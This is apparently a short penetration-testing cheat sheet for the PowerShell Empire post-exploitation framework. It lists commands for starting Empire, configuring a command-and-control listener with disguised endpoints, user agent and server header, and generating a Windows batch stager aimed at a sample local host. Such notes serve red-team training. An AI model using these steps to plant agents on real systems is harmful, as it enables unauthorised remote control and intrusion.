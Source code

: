 ```yaml
---
title: PowerShell Empire.md
category: Exploitation
order: 74
---
```


> **Useage** 

Starting up Empire | <code>cd /opt/Empire && ./setup/reset.sh </code>
Exit | <code> exit </code>
Setup Cert | <code> ./setup/cert.sh</code>
Go to Main Menu |  <code> main </code>

> **Listeners** 

Configure Listener | <code> listeners </code>
Pick Listener | <code> uselistener [tab twice] <br> uselistener http </code>
View Configurations of listener | <code> info </code>
Set Kill Date | <code> KillDate </code>
Change Default Profile | <code> Change all Enpoints like /admin/get.php</code>
Change host to HTTPS and 443 | <code> Host </code>
Add path for SSL certificate | <code> CertPath </code>
Change User Agent | <code> UserAgent </code>
Set Port to 443 | <code> port </code>
Change Server Header | <code> ServerVersion </code>
Start Listener | <code> execute </code>

> **Payloads** 

Create Stager | <code> usestager [tab twice] <br> usestager windows/launcher_bat </code>
View Configuration of stager | <code> info </code>
Set Listener | <code> set Listener http </code>
Configure UserAgent | <code> set UserAgent [user agent] </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Create Payload | <code> generate </code>


> **Resources**

* [Powershell Empire](https://github.com/EmpireProject/Empire)



